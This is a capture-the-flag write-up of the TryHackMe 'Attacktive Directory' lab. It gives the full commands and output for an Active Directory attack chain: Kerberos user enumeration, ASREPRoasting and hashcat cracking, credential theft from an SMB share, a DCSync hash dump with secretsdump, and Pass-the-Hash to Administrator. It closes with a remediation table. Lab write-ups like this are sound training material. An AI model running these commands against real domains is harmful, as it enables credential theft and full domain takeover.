




# Attacktive Directory — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Medium | **Target IP:** 10.66.151.15 | **Attacker IP:** 192.168.146.25

## Machine info



## Summary

**Attacktive Directory** is a beginner-friendly Active Directory box built around a chain of classic AD misconfigurations rather than a single vulnerability. Enumeration reveals the domain `spookysec.local`, and Kerberos username enumeration turns up two accounts that stand out from the rest: `svc-admin` and `backup`. The `svc-admin` account has Kerberos pre-authentication disabled, allowing an ASREPRoasting attack that yields a crackable password hash. That password unlocks an SMB share named `backup`, which leaks Base64-encoded credentials for the `backup` account. The `backup` account turns out to hold Directory Replication permissions (DCSync rights) on the domain, letting every password hash in the domain — including the Administrator's — be dumped remotely. The Administrator's NTLM hash is then used directly via Pass-the-Hash to get an authenticated shell as Administrator.

**Attack chain:** Nmap/enum4linux enumeration → Kerberos user enumeration (Kerbrute) → ASREPRoasting `svc-admin` → Hashcat crack → SMB `backup` share credential leak (Base64) → DCSync via `secretsdump.py` → Pass-the-Hash as Administrator (Evil-WinRM)

## 1. Enumeration

An initial full port scan with Nmap identified a Windows Domain Controller, showing classic Active Directory ports alongside HTTP, RDP and Kerberos:

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.66.151.15

53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
9389/tcp  open  mc-nmf        .NET Message Framing
```

The domain name was already visible in the LDAP service banners on ports 389/3268 (`Domain: spookysec.local`), and the `rdp-ntlm-info` script confirmed it further with additional detail:

```
rdp-ntlm-info:
  Target_Name: THM-AD
  NetBIOS_Domain_Name: THM-AD
  DNS_Domain_Name: spookysec.local
  DNS_Computer_Name: AttacktiveDirectory.spookysec.local
```

`enum4linux` confirmed the NetBIOS domain name and, via NULL session RID cycling, dumped the full list of domain groups and local accounts:

```
enum4linux 10.66.151.15

Domain Name: THM-AD
Domain Sid: S-1-5-21-3591857110-2884097990-301047963
[+] Host is part of a domain (not a workgroup)

S-1-5-21-3591857110-2884097990-301047963-500 THM-AD\Administrator (Local User)
S-1-5-21-3591857110-2884097990-301047963-502 THM-AD\krbtgt (Local User)
S-1-5-21-3591857110-2884097990-301047963-512 THM-AD\Domain Admins (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-1000 THM-AD\ATTACKTIVEDIREC$ (Local User)
```

## 2. Kerberos User Enumeration

With Kerberos exposed on port 88, `kerbrute` was used to enumerate valid domain usernames from a wordlist without triggering failed-login events, by abusing the differing AS-REQ responses Kerberos gives for existing vs. non-existing accounts:

```
kerbrute userenum -d spookysec.local --dc 10.66.151.15 userlist.txt

[+] VALID USERNAME:  james@spookysec.local
[+] VALID USERNAME:  svc-admin@spookysec.local
[+] VALID USERNAME:  James@spookysec.local
[+] VALID USERNAME:  robin@spookysec.local
[+] VALID USERNAME:  darkstar@spookysec.local
[+] VALID USERNAME:  administrator@spookysec.local
[+] VALID USERNAME:  backup@spookysec.local
[+] VALID USERNAME:  paradox@spookysec.local
```

Two accounts stood out from the rest of the normal-looking usernames: `svc-admin` (a service account naming pattern) and `backup`.

## 3. ASREPRoasting

`GetNPUsers.py` (Impacket) was used to check both notable accounts for Kerberos pre-authentication requirements:

```
impacket-GetNPUsers -request spookysec.local/ -usersfile users.txt -dc-ip 10.66.151.15 -no-pass -outputfile hashes-asreproasting

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:12b8f356e0c783a01bef2e5638af5dc6$5ee864f2...
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

`svc-admin` had the `UF_DONT_REQUIRE_PREAUTH` flag set, allowing a ticket to be requested with no credentials. `backup` did not, and was not exploitable this way. The captured hash was identified and cracked with Hashcat:

```
hashcat --identify hashes-asreproasting
18200 | Kerberos 5, etype 23, AS-REP | Network Protocol

hashcat -a 0 -m 18200 hashes-asreproasting /usr/share/wordlists/rockyou.txt

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:...:management2005
Status...........: Cracked
```

**Credentials obtained:** `svc-admin : management2005`

## 4. Credential Leak via SMB

Authenticating over SMB as `svc-admin` revealed the standard administrative shares plus a non-default one named `backup`:



Connecting to the `backup` share exposed a single file containing Base64-encoded credentials:

```
smbclient //10.66.151.15/backup -U svc-admin
smb: \> get backup_credentials.txt

cat backup_credentials.txt
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw

echo YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw | base64 -d
backup@spookysec.local:backup2517860
```

**Credentials obtained:** `backup : backup2517860`

## 5. DCSync and Domain Compromise

The `backup` account had been granted **Replicating Directory Changes** and **Replicating Directory Changes All** permissions on the domain — rights normally reserved for Domain Controllers, which allow AD data (including password hashes) to be synced to that account.

Since `backup` effectively has DC replication rights, `secretsdump.py` (Impacket) was used to remotely dump the entire NTDS.DIT database via the DRSUAPI method, without ever touching the DC's disk:

```
impacket-secretsdump spookysec.local/backup:'backup2517860'@10.66.151.15

[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
```

**NTLM hash obtained:** `Administrator : 0e0363213e37b94221497260b0bcb4fc`

## 6. Pass-the-Hash to Administrator

With the Administrator's NTLM hash in hand, there was no need to crack a password — NTLM authentication accepts the hash directly. Evil-WinRM's `-H` flag was used to authenticate via Pass-the-Hash:



Full domain control was confirmed:



**Flags:**
- `svc-admin` — `TryHackMe{K3rb3r0s_Pr3_4uth}`
- `backup` — `TryHackMe{B4ckM3UpSc0tty!}`
- `Administrator` — `TryHackMe{4ctiveD1rectoryM4st3r}`

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| `svc-admin` account had Kerberos pre-authentication disabled | Enable pre-authentication for all accounts; audit for `DONT_REQ_PREAUTH` domain-wide |
| Plaintext-equivalent (Base64) credentials stored on an accessible SMB share | Never store credentials in shares; use a managed secrets vault |
| `backup` account granted DS-Replication-Get-Changes / -All rights outside of a real DC | Restrict replication permissions to actual Domain Controllers and the built-in `Domain Controllers` group only |
| NTLM authentication accepted without additional protections, enabling Pass-the-Hash | Enforce Credential Guard / restrict NTLM where possible; monitor for anomalous NTLM authentications from non-DC hosts |
